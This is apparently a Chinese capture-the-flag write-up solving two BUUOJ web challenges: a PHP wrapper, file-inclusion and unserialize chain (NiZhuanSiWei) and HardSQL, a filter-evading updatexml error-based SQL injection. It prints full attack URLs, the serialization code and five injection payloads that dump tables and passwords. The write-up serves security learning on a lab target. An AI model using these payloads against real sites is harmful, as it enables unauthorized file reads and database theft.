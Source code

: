 ###### [ZJCTF 2019]NiZhuanSiWei

三个参数，text需要绕过`file_get_contents`；file需要绕过`preg_match`，且有`include`可以利用；password用于反序列化。

`file_get_contents`使用data://text/plain;base64绕过；由于给了提示`useless.php`，不需绕过`preg_match`，利用php://filter/read=convert.base64-encode/resource=在`include`读取`useless.php`源码即可；最后根据`useless.php`的源码构造反序列化即可。

读取useless.php源码：

```
http://2806c537-e61d-44c4-a3c3-4be94f9a3200.node3.buuoj.cn/index.php?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/read=convert.base64-encode/resource=useless.php
```

构造反序列化：

```php
<?php  

class Flag{  //flag.php  
    public $file = "flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  


$s = new Flag();
var_dump(serialize($s));
?>
```

读取flag：

```
http://2806c537-e61d-44c4-a3c3-4be94f9a3200.node3.buuoj.cn/index.php?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}
```

###### [极客大挑战 2019]HardSQL

过滤了union，故使用updatexml进行报错注入。

使用like代替=

使用^代替and

使用括号代替空格

使用right代替substr

```
1'^updatexml(1,concat(0x23,database()),1)%23^'1

1'^updatexml(1,concat(0x23,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like'geek'))),1)%23^'1

1'^updatexml(1,concat(0x23,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like'H4rDsq1'))),1)%23^'1

1'^updatexml(1,concat(0x23,(select(password)from(H4rDsq1))),1)%23^'1

1'^updatexml(1,concat(0x23,(select(right(password,30))from(H4rDsq1))),1)%23^'1
```
